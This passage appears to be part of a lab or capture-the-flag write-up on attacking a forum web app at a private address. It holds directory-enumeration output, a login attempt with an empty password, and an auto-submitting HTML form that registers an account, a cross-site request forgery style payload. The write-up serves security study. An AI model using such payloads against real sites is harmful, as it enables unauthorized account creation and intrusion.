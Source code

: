# Exploit the Forum

The forum can be access throught this URI: https://192.168.1.120:443/forum/

![img forum](/img/forum.png)

```bash
==> DIRECTORY: https://192.168.1.120:443/forum/

---- Entering directory: https://192.168.1.120:443/forum/ ----
==> DIRECTORY: https://192.168.1.120:443/forum/js/
==> DIRECTORY: https://192.168.1.120:443/forum/includes/
==> DIRECTORY: https://192.168.1.120:443/forum/js/
==> DIRECTORY: https://192.168.1.120:443/forum/lang/ 
==> DIRECTORY: https://192.168.1.120:443/forum/modules/
==> DIRECTORY: https://192.168.1.120:443/forum/templates_c/
==> DIRECTORY: https://192.168.1.120:443/forum/themes/
==> DIRECTORY: https://192.168.1.120:443/forum/update/
```

All of this directories are listable: 

![img listable](/img/index-js.png)

https://192.168.1.120/forum/index.php?mode=register

mode=login&username=test&userpw=""

<form action="https://192.168.1.120/forum/index.php?mode=register" method="POST">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="userpw" value="test" />
</form>
<script>
    document.forms[0].submit();
</script>